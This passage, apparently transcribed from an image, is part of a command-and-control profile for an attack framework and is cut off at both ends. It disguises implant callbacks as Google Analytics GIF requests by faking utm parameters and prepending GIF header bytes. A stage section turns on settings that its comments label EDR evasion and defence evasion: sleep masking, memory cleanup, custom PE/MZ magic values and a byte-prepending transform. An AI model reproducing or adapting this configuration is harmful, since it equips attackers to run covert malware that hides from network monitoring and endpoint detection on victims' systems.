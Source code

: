 ```
						
                        print;
                }
        }
}

http-post {
        set uri "/___utm.gif";
        client {
                header "Content-Type" "application/octet-stream";
				
                id {
                        prepend "UA-220";
                        append "-2";
                        parameter "utmac";
                }
				
                parameter "utmcn" "1";
                parameter "utmcs" "ISO-8859-1";
                parameter "utmsr" "1280x1024";
                parameter "utmsc" "32-bit";
                parameter "utmul" "en-US";
				
                output {
                        print;
                }
        }
		
        server {
                header "Content-Type" "image/gif";
				
                output {
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}

https-certificate {
        set keystore "localhost.store";
        set password "pass123";
}

stage {
        # EDR Evasion -> Sleep Mask Kit
        set sleep_mask "true";
		
        # Defence Evasion -> Memory Permissions & Cleanup
        set cleanup "true";
		
		# mask text section during sleep (see sleep mask kit -> mask_text_section.c)
        set userwx "true";
        
		# not compatible with sleep mask kit
        #set obfuscate "true";
        set magic_pe "TL";
        set magic_mz_x64 "AYAQ";
		
        transform-x64 {
                prepend "\x44\x40\x4B\x43\x4C\x48\x90\x66\x90\x0F\x1F\x00\x66\x0F\x1F\x04\x00\x0F\x1F\x04\x00\x0F\x1F\x00\x0F\x1F\x00";
```